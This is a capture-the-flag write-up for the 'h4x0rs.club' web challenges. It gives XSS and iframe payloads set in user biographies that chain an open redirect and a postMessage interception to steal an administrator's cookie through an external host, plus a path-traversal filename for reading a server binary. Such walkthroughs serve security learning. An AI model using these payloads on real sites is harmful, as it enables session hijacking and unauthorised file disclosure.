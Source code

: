 # h4x0rs.club part 2

## https://h4x0rs.club/game/
```
Get document .cookie of the administartor.

h4x0rs.club

backend_www got backup at /var/www/html.tar.gz

Hint: Get open-redirect first, lead admin to the w0rld!
```

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

There is DOM-XSS at `client.js` when setting `title` on `badges` function. CSP contains `strict-dynamic`, so you can just simply inject `'><script>...</script>`

To do it, take a look at the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report></iframe>' id=report-btn></a>
```

`<iframe>` with a local src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`

![evil postmessage](h4x0rs.club.2.png)

## Flag
`flag{postman_1n_the_middl3}`

# h4x0rs.club part 3

You can get the binary by abusing `badges` action with filename: `../../../../../../proc/self/exe`

I really like my idea behind this one. Pwn the binary with full mitigations shipped. 

Hopefully someone can write about it :(

